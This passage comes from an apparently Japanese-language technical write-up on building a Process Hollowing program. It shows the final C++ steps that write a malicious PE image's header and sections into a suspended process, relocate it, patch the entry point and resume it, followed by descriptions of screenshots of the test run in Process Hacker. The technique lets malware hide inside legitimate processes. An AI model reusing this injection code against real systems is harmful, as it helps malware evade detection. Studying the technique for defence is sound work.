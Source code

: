 ```cpp
			{
				ULONG_PTR buildAddr = malwr.memAlloc(malwr_size); // Step5

				relativeOffset = malwr.getRelativeOffset(malwrAddr);
				malwr.setImagebase(malwrAddr);

				injector.writeHeader(buildAddr, (ULONG_PTR)malwr.peHeader(), malwr.peHeaderSize()); // Step6: ### ヘッダーの記録

				// Step 7
				ULONG_PTR currentSection = malwr.getFirstSection();

				for (int nSection = 0; nSection < malwr.numberOfSection(); ++nSection)
				{
					injector.writeSection(buildAddr, (ULONG_PTR)malwr.peHeader(), currentSection);
					currentSection = malwr.getNextSection(currentSection);
				}

				// Step 8: relocate
				malwr.relocate(buildAddr, relativeOffset);

				// Step 9, 10
				injector.write(malwrAddr, buildAddr, malwr_size, false);
				normalProcess.patchEntryPoint(malwrAddr, malwr.addressOfEntryPoint());
				normalProcess.resume();
			}
		}
	}

	return 0;
}

```

---

---

# 3. 作成したProcess Hollowingプログラムの実行画面

![program](https://github.com/user-attachments/assets/57fff65a-d408-4b87-8c31-391668b18810)

[写真 25] **hollow_test.exe** 実行画面

![process_list](https://github.com/user-attachments/assets/79ba792b-8559-4b0b-80c7-b22789f208d2)

[写真 26] **プロセス一覧**

Process Hackerを使用してプロセスの一覧を確認した結果、`hollow_test.exe` プロセスの下に  
`explorer.exe（ファイルエクスプローラー）` および `conhost.exe` が存在していることを確認できた。
